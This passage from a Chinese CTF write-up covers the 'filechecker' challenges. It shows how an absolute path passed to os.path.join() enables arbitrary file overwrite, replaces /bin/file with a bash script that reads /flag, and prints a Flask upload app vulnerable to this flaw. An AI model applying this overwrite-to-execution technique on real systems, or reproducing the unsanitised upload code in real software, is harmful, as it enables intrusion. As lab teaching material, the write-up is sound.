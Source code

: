 修复了 ssti, 然后去网上搜了一下发现 `os.path.join()` 可被绕过

[https://lazzzaro.github.io/2020/11/14/web-python%E7%BB%95%E8%BF%87/index.html](https://lazzzaro.github.io/2020/11/14/web-python%E7%BB%95%E8%BF%87/index.html)

如果有参数以 `/` 开头, 则从该参数开始向后拼接路径

```python
os.path.join('uploads/', '/flag') # /flag
os.path.join('uploads/','/etc/passwd', '/flag') # /flag
```

之后利用路径穿越来覆盖任意文件, 这里覆盖 /bin/file 为以下内容, 通过 `subprocess.check_output()` 来得到回显

```bash
#!/bin/bash
cat /flag
```

![image-20221213140350732](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131403807.png)

注意在 burp 里面发送时需要把每行末尾的 `\r` 删掉

## filechecker_pro_max

app.py

```python
from flask import Flask, request, render_template
from waitress import serve
import os
import subprocess

app_dir = os.path.split(os.path.realpath(__file__))[0]
app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = f'{app_dir}/upload/'

@app.route('/', methods=['GET','POST'])
def index():
    try:
        if request.method == 'GET':
            return render_template('index.html',result="ヽ(=^･ω･^=)丿 ヽ(=^･ω･^=)丿 ヽ(=^･ω･^=)丿")

        elif request.method == 'POST':
            f = request.files['file-upload']
            filepath = os.path.join(app.config['UPLOAD_FOLDER'], f.filename)

            if os.path.exists(filepath):
                return render_template('index.html', result=f"{filepath} already exists (^=◕ᴥ◕=^) (^=◕ᴥ◕=^) (^=◕ᴥ◕=^)")
            else:
                f.save(filepath)
                file_check_res = subprocess.check_output(
                    ["/bin/file", "-b", filepath], 
                    shell=False, 
                    encoding='utf-8',
                    timeout=1
                )
                os.remove(filepath)
                if "empty" in file_check_res or "cannot open" in file_check_res:
                    file_check_res="wafxixi ฅ•ω•ฅ ฅ•ω•ฅ ฅ•ω•ฅ"
                return render_template('index.html', result=file_check_res)

    except:
        return render_template('index.html', result='Error ฅ(๑*д*๑)ฅ ฅ(๑*д*๑)ฅ ฅ(๑*д*๑)ฅ')

if __name__ == '__main__':
```